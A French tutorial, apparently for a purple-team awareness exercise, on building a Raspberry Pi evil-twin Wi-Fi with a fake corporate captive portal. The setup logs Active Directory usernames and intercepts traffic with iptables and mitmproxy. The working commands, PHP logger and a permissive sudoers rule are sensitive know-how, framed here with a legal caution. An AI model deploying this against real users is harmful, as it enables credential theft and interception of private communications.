


Ce projet part d'une idée simple : un collaborateur qui se connecte à un Wi-Fi ouvert au nom de son entreprise ne se méfie pas. En reproduisant ce scénario dans un cadre maîtrisé, on obtient un support de sensibilisation concret plutôt qu'une slide de plus sur le hameçonnage.

La démarche relève de la **purple team**. Il ne s'agit pas d'une équipe distincte mais d'un mode de collaboration : utiliser des techniques offensives (red) dans le but immédiat d'améliorer les défenses (blue). Simuler une attaque de portail captif pour former ses collègues, c'est exactement cela.

:::caution[Cadre légal et éthique]
Intercepter des communications et collecter des identifiants sur un réseau, même interne, exige une autorisation écrite de la direction et un périmètre défini à l'avance. Ce montage ne se justifie que dans une mission de sensibilisation validée, avec information des personnes concernées en aval et purge des données collectées. Hors de ce cadre, la collecte d'identifiants est un délit.
:::

## Préparer la carte et l'OS

Le point de départ tient en trois éléments : un Raspberry Pi (Pi 3, 4 ou 5), une carte MicroSD et une alimentation correctement dimensionnée.

L'installation passe par **Raspberry Pi Imager**. L'outil télécharge et écrit **Raspberry Pi OS** sur la carte, une distribution basée sur Debian. L'assistant permet de préconfigurer le nom d'hôte, l'utilisateur, le mot de passe et surtout d'activer SSH avant le premier démarrage, ce qui évite d'avoir à brancher un écran.

## Premier démarrage : lire les LED

Une fois la carte insérée et l'alimentation branchée, le Pi communique son état par deux LED : une rouge (`PWR`, alimentation) et une verte (`ACT`, activité).

En démarrage normal :

- **LED rouge fixe** : le Pi reçoit une tension correcte en 5 V. Si elle clignote ou s'éteint, le câble ou le bloc d'alimentation manque de puissance.
- **LED verte au clignotement irrégulier** : le Pi lit et écrit sur la carte MicroSD, il démarre. Une fois le boot terminé, elle s'éteint ou clignote très discrètement.

Quand le Pi refuse de démarrer, la LED verte adopte un motif régulier qui code l'erreur :

| Clignotements LED verte | Signification |
|---|---|
| 4 | Fichier de boot (`start*.elf`) introuvable : carte mal flashée ou vide |
| 7 | Image de l'OS non supportée, par exemple noyau introuvable |
| Fixe, sans clignoter | Le Pi ne lit pas la carte SD : mal insérée ou morte |

Si la LED rouge reste fixe et que la verte cesse son activité après trente à quarante secondes, le Pi a démarré et attend sur le réseau.

## Trouver le Pi et s'y connecter

Sans écran, il faut retrouver l'adresse IP du Pi sur le réseau. Trois approches :

```bash
# Balayer le réseau pour lister les hôtes actifs
sudo nmap -sP 172.30.11.0/24

# Ne garder que les hôtes dont le port SSH est ouvert
sudo nmap -p 22 172.30.13.0/24 --open

# Résolution mDNS si le nom d'hôte est connu
ping <hostname>.local
```

La connexion se fait ensuite en SSH :

```bash
ssh user@IP
```

Et parce que taper `ls -la` en entier vingt fois par session, très peu pour moi, un petit alias par pure flemme :

```bash
echo "alias ll='ls -la'" >> ~/.bashrc
source ~/.bashrc
```

## Servir le portail avec Nginx et PHP

Le portail captif est une page web hébergée sur le Pi. Nginx la sert, PHP-FPM traite le formulaire de connexion.

```bash
sudo apt update
sudo apt install nginx php-fpm
```

Les fichiers du portail (la page de connexion et ses assets) se placent dans `/var/www/html/`. Ils sont disponibles dans le dépôt du projet : [github.com/Pitchouneee/wifi-evil-twin/tree/main/captive_portal](https://github.com/Pitchouneee/wifi-evil-twin/tree/main/captive_portal).



Pour que Nginx exécute les fichiers PHP, il faut modifier le bloc serveur par défaut dans `/etc/nginx/sites-available/default`. La configuration finale ajoute `index.php`, active le traitement PHP et intercepte les URL de détection de portail des systèmes mobiles (le rôle de ces dernières est détaillé plus bas) :

```nginx
server {
    listen 80 default_server;
    listen [::]:80 default_server;

    root /var/www/html;
    index index.html index.htm index.php;

    server_name _;

    location / {
        try_files $uri $uri/ =404;
    }

    # Rediriger les URL de test de connectivité vers le portail
    location ~* /(hotspot-detect\.html|canonical\.html|success\.txt) {
        return 302 http://10.42.0.1/index.php;
    }

    location ~* /(generate_204|gen_204) {
        return 302 http://10.42.0.1/index.php;
    }

    # Traitement PHP
    location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/var/run/php/php8.4-fpm.sock;
    }
}
```

Le chemin de la socket doit correspondre à la version de PHP installée, ici `php8.4-fpm.sock`. Avant de recharger, une vérification de syntaxe évite les mauvaises surprises :

```bash
sudo nginx -t
sudo systemctl restart nginx
```

Les fichiers du portail doivent appartenir à l'utilisateur du serveur web pour que PHP puisse les lire et écrire son journal :

```bash
sudo chown -R www-data:www-data /var/www/html/
```

## Créer le point d'accès Wi-Fi

Le Pi doit maintenant diffuser son propre réseau Wi-Fi. NetworkManager gère cela nativement via `nmcli`, sans avoir à assembler manuellement `hostapd` et `dnsmasq`.

On vérifie d'abord que la carte Wi-Fi est reconnue :

```bash
nmcli
```

Puis on crée le point d'accès. Le nom du réseau (`ssid`) reprend celui de l'entreprise pour paraître légitime :

```bash
# 1. Créer la connexion Wi-Fi
nmcli connection add type wifi ifname wlan0 con-name MyHotspot autoconnect yes ssid My_Wifi

# 2. Passer en mode point d'accès et partager la connexion
nmcli connection modify MyHotspot 802-11-wireless.mode ap 802-11-wireless.band bg ipv4.method shared

# 3. Activer le hotspot
nmcli connection up MyHotspot
```

L'option `ipv4.method shared` fait du Pi un routeur : il attribue les adresses en DHCP, résout le DNS et fait du NAT vers Internet. NetworkManager choisit une passerelle locale, généralement `10.42.0.1`. On la récupère ainsi :

```bash
hostname -I
# ou
ip a show wlan0
```

Toutes les commandes qui suivent utilisent `10.42.0.1`. Cette adresse dépend de la configuration du point d'accès, d'où les valeurs différentes que l'on croise ailleurs (`10.3.141.1` avec d'autres piles logicielles). Il faut l'adapter à ce que renvoie `hostname -I`.

## Intercepter le trafic HTTP

Pour qu'une requête HTTP quelconque aboutisse sur Nginx, on redirige le trafic sortant du Wi-Fi vers le serveur local avec `iptables` :

```bash
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j DNAT --to-destination 10.42.0.1:80
```

Sur le papier, tout terminal connecté au Wi-Fi qui charge une page en HTTP est renvoyé vers le portail. En pratique, la première tentative sur iPhone n'a rien ouvert du tout.

## Déclencher l'ouverture automatique du portail

À la connexion à un réseau Wi-Fi, iOS interroge en arrière-plan une page de contrôle : `http://captive.apple.com/hotspot-detect.html`. Si la réponse est un `200 Success`, le téléphone considère qu'Internet est ouvert. Toute autre réponse lui indique la présence d'un portail, et il ouvre alors la fenêtre dédiée, le **CNA** (Captive Network Assistant). Android procède de même avec `generate_204` et `gen_204`.

Lors du test, le portail ne s'ouvrait pas automatiquement. Pour vérifier que l'interception fonctionnait malgré tout, direction le navigateur et `http://neverssl.com/`, un site volontairement servi en HTTP simple. Le portail s'est bien affiché, mais seulement en le sollicitant manuellement.

Si l'iPhone charge le vrai `neverssl.com` sans redirection, c'est que le trafic traverse le Pi vers Internet sans être intercepté. Deux causes possibles : la règle `iptables` a sauté, ou le trafic emprunte une autre route.

## Le piège iptables : une règle ACCEPT qui court-circuite le DNAT

L'inspection de la table `nat` a livré la réponse :

```bash
iptables -t nat -L PREROUTING -n -v
```

```
 549  131K ACCEPT     all  --  *  *  10.42.0.149          0.0.0.0/0
```

L'iPhone avait obtenu l'adresse `10.42.0.149` par le DHCP du hotspot. La toute première règle de la chaîne disait à `iptables` : « si un paquet vient de `10.42.0.149`, `ACCEPT`, laisse-le passer directement sans évaluer la suite ». Comme les règles sont lues de haut en bas, le téléphone correspondait à cette règle immédiatement. La règle de redirection `DNAT`, placée tout en bas, n'était jamais atteinte. Le téléphone accédait au vrai site et croyait Internet ouvert, ce qui bloquait l'affichage automatique du portail.

La correction tient en deux temps. D'abord supprimer la règle d'autorisation qui court-circuite tout :

```bash
iptables -t nat -D PREROUTING -s 10.42.0.149 -j ACCEPT
```

Ensuite insérer la règle de redirection en tête de chaîne avec `-I` (insert) plutôt que `-A` (append), pour qu'aucun `ACCEPT` injecté par un autre service ne repasse devant :

```bash
iptables -t nat -I PREROUTING 1 -i wlan0 -p tcp --dport 80 -j DNAT --to-destination 10.42.0.1:80
```

À partir de là, le CNA de l'iPhone s'ouvre seul dès la connexion.

## Libérer l'utilisateur après la saisie

Le portail présente un formulaire aux couleurs de l'entreprise qui demande un identifiant Active Directory. Le script `connect.php` reçoit la soumission, journalise l'identifiant, puis « libère » l'utilisateur en ajoutant une règle `ACCEPT` pour son adresse IP afin qu'il retrouve un accès normal.

Ce script tourne sous l'utilisateur `www-data`, qui n'a pas le droit de modifier `iptables`. On l'autorise pour cette seule commande, sans mot de passe, via `sudo visudo` :

```
www-data ALL=(ALL) NOPASSWD: /usr/sbin/iptables -t nat -I PREROUTING -s * -j ACCEPT
```

Le script lui-même :

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = isset($_POST['username']) ? trim($_POST['username']) : 'Inconnu';

    $user_ip = $_SERVER['REMOTE_ADDR'];
    $date = date('Y-m-d H:i:s');

    $logEntry = sprintf("[%s] IP: %s | AD_User: %s\n", $date, $user_ip, $username);

    // FILE_APPEND évite d'écraser le fichier à chaque soumission
    file_put_contents('compteur.log', $logEntry, FILE_APPEND | LOCK_EX);

    // Supprimer la redirection pour cette IP : l'utilisateur retrouve Internet
    exec("sudo iptables -t nat -I PREROUTING -s " . $user_ip . " -j ACCEPT");

    // Rediriger vers une page neutre après une seconde
    echo "<script>setTimeout(function(){ window.location.href = 'https://www.google.com'; }, 1000);</script>";
}
?>
```

Si le journal `compteur.log` ne se crée pas, c'est une question de droits sur le répertoire, réglée par le `chown -R www-data:www-data` vu plus haut. Les permissions du script se fixent de la même façon :

```bash
sudo chmod 644 /var/www/html/connect.php
sudo chown www-data:www-data /var/www/html/connect.php
```

À ce stade, le montage est complet : un Wi-Fi ouvert, un portail crédible et un journal d'identifiants. Les deux sections suivantes poussent la démonstration plus loin pour rendre le risque tangible.

## Aller plus loin 1 : capture passive du trafic

Pour montrer ce qui transite réellement sur un réseau ouvert, `tcpdump` enregistre le trafic web sur l'interface du hotspot. Un filtre limite la capture aux ports 80 et 443, ce qui écarte le SSH d'administration et les flux annexes :

```bash
apt update && apt install tcpdump -y

tcpdump -i wlan0 -v -w /var/www/html/capture.pcap "tcp port 80 or tcp port 443"
```

- `-i wlan0` écoute l'interface du hotspot.
- `-v` affiche le nombre de paquets capturés en temps réel.
- `-w` écrit la capture au format `.pcap`, ici dans le répertoire web pour la récupérer facilement.
- Le filtre `"tcp port 80 or tcp port 443"` cible le seul trafic web.

La capture reste passive : elle montre le volume et les métadonnées, mais le contenu HTTPS demeure chiffré.

## Aller plus loin 2 : interception active avec mitmproxy

Pour lire le contenu des échanges, y compris HTTPS, on interpose un proxy transparent. `mitmproxy` remplit ce rôle. Il s'installe proprement via `pipx` :

```bash
sudo apt update
sudo apt install pipx python3-dev -y

pipx ensurepath
source ~/.bashrc

pipx install mitmproxy
```

L'interface web `mitmweb` n'écoute par défaut que sur `127.0.0.1`. Pour la piloter depuis un autre poste du réseau, on l'ouvre sur toutes les interfaces :

```bash
mitmweb --mode transparent --web-host 0.0.0.0 --web-port 8081
```

- `--mode transparent` intercepte le trafic dévié par `iptables`.
- `--web-host 0.0.0.0` rend l'interface accessible depuis un autre PC.
- `--web-port 8081` est le port de contrôle, à ne pas confondre avec le port 8080 qui reçoit le trafic intercepté.



Le trafic web des clients Wi-Fi doit maintenant partir vers le proxy, sans casser l'accès au portail local. C'est là que la table `nat` a demandé quelques allers-retours avant de tomber juste. La version qui tient la route repose sur un ordre précis et sur une exclusion du réseau local :

```bash
# 1. Autoriser le trafic DNS, indispensable pour que le téléphone
#    résolve les noms et déclenche la détection de portail
sudo iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j ACCEPT
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 53 -j ACCEPT

# 2. Rediriger le HTTP vers le portail captif local (10.42.0.1)
#    pour déclencher la page PHP
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j DNAT --to-destination 10.42.0.1:80

# 3. Intercepter tout le reste du trafic web sortant vers mitmproxy.
#    On exclut la destination 10.42.0.0/24 pour ne pas dévier
#    l'accès au Nginx local, qui doit rester joignable.
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp ! -d 10.42.0.0/24 --dport 80 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp ! -d 10.42.0.0/24 --dport 443 -j REDIRECT --to-port 8080
```

L'exclusion `! -d 10.42.0.0/24` est la pièce qui débloque tout : le trafic à destination du Pi lui-même (le portail) passe par le `DNAT`, alors que le trafic vers Internet est capté par mitmproxy. La chaîne `PREROUTING` finale ressemble alors à ceci :

```
 pkts bytes target     prot opt in     out   source        destination
  106  7316 ACCEPT     udp  --  wlan0  *     0.0.0.0/0     0.0.0.0/0      udp dpt:53
    0     0 ACCEPT     tcp  --  wlan0  *     0.0.0.0/0     0.0.0.0/0      tcp dpt:53
   29  1856 DNAT       tcp  --  wlan0  *     0.0.0.0/0     0.0.0.0/0      tcp dpt:80 to:10.42.0.1:80
    0     0 REDIRECT   tcp  --  wlan0  *     0.0.0.0/0    !10.42.0.0/24   tcp dpt:80 redir ports 8080
   25  1600 REDIRECT   tcp  --  wlan0  *     0.0.0.0/0    !10.42.0.0/24   tcp dpt:443 redir ports 8080
```

## Rendre le montage persistant

Un redémarrage du Pi ou une réinitialisation de l'interface efface les règles `iptables`. Le paquet `iptables-persistent` les recharge au démarrage :

```bash
sudo apt install iptables-persistent

# Sauvegarder l'état courant après chaque modification
sudo iptables-save | sudo tee /etc/iptables/rules.v4
```

Le proxy doit lui aussi survivre à un redémarrage. Les premières règles `iptables` redirigent le trafic entrant vers le port 8080 ; si `mitmweb` est éteint, plus rien n'atteint le portail. Un service systemd le lance automatiquement.

Dans `/etc/systemd/system/mitmweb.service` :

:::caution[Service lancé en root]
Le service tourne ici sous `root`, ce qui reste discutable pour un démon exposé. C'est un choix assumé de POC, pour aller vite sur une démo jetable. Sur un montage destiné à durer, il vaut mieux un utilisateur dédié avec les seules capacités réseau nécessaires.
:::

```ini
[Unit]
Description=Mitmweb Transparent Proxy Service
After=network.target

[Service]
Type=simple
User=root
WorkingDirectory=/root
ExecStart=/root/.local/bin/mitmweb --mode transparent --web-host 0.0.0.0 --web-port 8081 --set web_password=MotDePasseInterface
Restart=always
RestartSec=5

[Install]
WantedBy=multi-user.target
```

L'option `--set web_password` protège l'interface de contrôle par un mot de passe. On active ensuite le service :

```bash
sudo systemctl daemon-reload
sudo systemctl enable mitmweb.service
sudo systemctl start mitmweb.service
sudo systemctl status mitmweb.service
```

Le service doit apparaître `active (running)`.

## Configurer l'URL du tableau de bord

Le portail appelle l'API d'un tableau de bord externe pour incrémenter deux compteurs : les personnes qui ont simplement ouvert la page du portail, et celles qui sont allées jusqu'à saisir leurs identifiants. Cela donne une mesure de l'exposition et du taux de clic réel, matière directe pour la restitution de sensibilisation. Pour garder le même code d'un environnement à l'autre, on externalise l'URL de cette API dans une variable d'environnement plutôt que de la coder en dur.

Le point à retenir : c'est PHP-FPM qui injecte la variable, pas Nginx. La déclaration se fait dans le pool PHP, `/etc/php/8.4/fpm/pool.d/www.conf` :

```ini
env[DASHBOARD_URL] = http://192.168.1.50:8080
```

Un redémarrage du service prend la variable en compte :

```bash
sudo systemctl restart php8.4-fpm
```

Le code PHP la lit ensuite via `getenv('DASHBOARD_URL')`.

## Conclusion

Le résultat tient dans un boîtier discret, glissé dans un faux plafond, qui diffuse un Wi-Fi au nom de l'entreprise et collecte les identifiants de ceux qui s'y connectent. La chaîne complète, du portail captif au proxy transparent, tient sur un Raspberry Pi à quelques dizaines d'euros.

L'intérêt de l'exercice n'est pas la prouesse technique mais la restitution. Confronter un collaborateur à son propre identifiant, saisi sur un faux portail quelques minutes plus tôt, marque durablement plus qu'un rappel de consigne. C'est le principe de la purple team : l'attaque ne vaut que par la défense qu'elle permet de construire derrière, ici une vigilance accrue face aux réseaux ouverts et une politique claire sur la saisie d'identifiants Active Directory hors des applications maîtrisées.

Reste une part de plaisir assumée, celle de bricoler un petit boîtier discret et de le glisser dans un faux plafond. C'est un projet de sensibilisation avant tout, mais qui m'a bien amusé à monter.
